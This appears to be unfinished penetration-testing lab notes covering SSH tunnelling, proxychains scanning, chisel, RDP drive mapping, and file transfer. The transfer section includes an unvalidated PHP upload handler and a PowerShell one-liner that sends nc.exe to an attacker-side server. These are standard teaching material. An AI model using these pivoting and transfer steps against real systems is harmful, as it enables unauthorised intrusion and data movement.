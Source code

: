 # Tunnel Proxy Transfer

## Tunnel

### ssh

#### local port forwarding

```bash
sudo ssh -N -L 127.0.0.1:8080:192.168.18.1:80 kali@127.0.0.1
```

#### remote port forwarding

```bash
sudo ssh -N -R 172.16.8.144:7070:192.168.18.1:80 kali@172.16.8.144
```

#### ssh tunnel

##### dynamic ssh tunnel

```bash
ssh -N -D 127.0.0.1:9090 yuanfh@172.16.8.136
```

##### reverse ssh tunnel

```bash
ssh -N -R 9090 kali@172.16.8.144
```

## Proxy

### proxychains

nmap -sT means TCP connect scan, you shuld add -sT when you use proxychains to scan.

```bash
proxychains nmap -sT -vv 192.168.18.1
```

```bash

### chisel

<https://github.com/jpillora/chisel>

chisel 是一个用于创建隧道的工具，它可以通过HTTP代理或者SOCKS5代理来创建隧道。

### dnsmasq

## Transfer

### download

#### rdp

```bash
xfreerdp /u:offsec /p:lab /v:192.168.159.61 /drive:home,/home/parallels/Downloads
```

### upload

#### appache php server

/var/www/html/upload.php

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```

```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

```powershell
powershell (new-object System.Net.WebClient).UploadFile('http://172.16.8.144/upload.php', 'C:\Users\Public\nc.exe')
```

## Tips

1.
